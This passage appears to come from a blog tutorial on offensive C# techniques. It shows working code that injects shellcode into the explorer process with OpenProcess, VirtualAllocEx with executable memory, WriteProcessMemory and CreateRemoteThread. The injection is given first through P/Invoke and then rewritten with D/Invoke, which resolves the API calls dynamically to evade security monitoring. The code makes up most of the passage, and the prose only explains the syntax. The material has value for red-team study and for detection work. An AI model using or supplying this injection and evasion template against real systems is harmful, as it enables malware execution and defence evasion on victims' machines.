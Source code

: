 Calling our APIs is pretty similar but how about using them in our main code?

Here's how the main code looked like in our P/Invoke solution:

```c#
//Get a handle on the target process
IntPtr process_handle = Methods.OpenProcess(0x1F0FFF, false, explorerProcess.Id);
IntPtr bytesWritten;

//Allocate the memory to place the shellcode
IntPtr memory_allocation = Methods.VirtualAllocEx(process_handle, IntPtr.Zero, (uint)(shellcode.Length), 0x00001000, 0x40);

//Write the shellcode into memory
Methods.WriteProcessMemory(process_handle, memory_allocation, shellcode, (int)shellcode.Length, out bytesWritten);

//Execute the code
Methods.CreateRemoteThread(process_handle, IntPtr.Zero, 0, memory_allocation, IntPtr.Zero, 0, IntPtr.Zero);
```

Here's how it looks like using D/Invoke:

```c#
//Get a handle on the target process
var pointer = Generic.GetLibraryAddress("kernel32.dll", "OpenProcess");
var openProcess = Marshal.GetDelegateForFunctionPointer(pointer, typeof(Methods.OpenProcess)) as Methods.OpenProcess;
IntPtr process_handle = openProcess(0x1F0FFF, false, explorerProcess.Id);

//Allocate the memory to place the shellcode
pointer = Generic.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
var virtualAllocEx = Marshal.GetDelegateForFunctionPointer(pointer, typeof(Methods.VirtualAllocEx)) as Methods.VirtualAllocEx;
IntPtr memory_allocation = virtualAllocEx(process_handle, IntPtr.Zero, (uint)(shellcode.Length), 0x00001000, 0x40);

//Write the shellcode into memory
IntPtr bytesWritten;
pointer = Generic.GetLibraryAddress("kernel32.dll", "WriteProcessMemory");
var writeProcessMemory = Marshal.GetDelegateForFunctionPointer(pointer, typeof(Methods.WriteProcessMemory)) as Methods.WriteProcessMemory;
writeProcessMemory(process_handle, memory_allocation, shellcode, (int)shellcode.Length, out bytesWritten);

//Execute the code
pointer = Generic.GetLibraryAddress("kernel32.dll", "CreateRemoteThread");
var createRemoteThread = Marshal.GetDelegateForFunctionPointer(pointer, typeof(Methods.CreateRemoteThread)) as Methods.CreateRemoteThread;
createRemoteThread(process_handle, IntPtr.Zero, 0, memory_allocation, IntPtr.Zero, 0, IntPtr.Zero);
```

It looks a lot more daunting but, upon closer inspection, you'll notice that our D/Invoke calls all follow a similar syntax. One thing to note is the `var pointer` variable on line 2. Once we declare the variable in that line as a variable, we can reuse that variable on lines 7, 13, and 18. I'm sure C# veterans know this already but I'm  just putting this here for my own reference.

